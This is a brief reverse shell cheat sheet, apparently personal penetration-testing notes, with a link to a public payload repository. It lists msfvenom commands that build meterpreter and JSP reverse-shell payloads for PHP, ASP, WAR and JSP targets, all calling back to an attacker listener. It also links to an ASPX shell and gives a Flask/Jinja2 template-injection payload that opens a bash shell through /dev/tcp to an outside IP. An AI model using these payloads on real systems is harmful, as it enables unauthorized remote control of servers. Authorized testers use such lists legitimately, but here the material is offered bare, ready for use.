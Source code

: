 ## Reverse Shell Cheat Sheet

[PayloadsAllTheThings Github Repo](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

## PHP

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f raw > shell.php
```

## ASP/ASPX

```
https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=443 -f asp > shell.asp
```

## WAR

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f war > shell.war
```

## JSP

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f raw > shell.jsp
```

## Flask/python SSTI

```
// https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee
{{ ''.__class__.__mro__[1].__subclasses__()[407]('/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.74/4757 0>&1"',shell=True,stdout=-1).communicate() }}
```
